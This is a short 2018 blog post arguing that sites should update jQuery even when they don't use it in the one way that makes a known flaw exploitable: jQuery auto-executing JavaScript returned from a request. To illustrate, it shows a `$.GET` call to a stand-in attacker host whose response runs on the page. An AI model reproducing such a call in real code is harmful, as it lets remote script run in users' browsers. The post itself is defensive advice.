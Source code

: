 ```yaml
---
layout: post
title: "Should you update jQuery over a hypotethical vulnerability?"
thumbnail: todo.jpg
date: 2018-08-18
---
```



## A vulnerability in jQuery

jQuery is a client-side JavaScript library. Like any software it can contain vulnerabilities, but often these can only be exploited if the library is used in some specific way. For example, some versions of jQuery [automatically execute JavaScript](/2017/09/27/some-libraries-evaluate-remote-javascript/) returned from a request. This is certainly unexpected and can lead to vulnerabilities: you call `$.GET("http://attacker.com/picture.gif")`, the attacker returns a JavaScript response from his server and this is executed on the page.

If you use user input URLs in `$.GET` calls, you are vulnerable to this attack. But what if you don't?

## Hypothetical vulnerabilities

If you don't use the library in a way that makes your site vulnerable, there is no vulnerability. However, it is still a good idea to update your jQuery version. You may not retrieve user-provided URLs now, but maybe you'll develop it in the future. Maybe you made a mistake when checking your code for vulnerable usage of the library, or maybe the vulnerable code is in a third-party component.
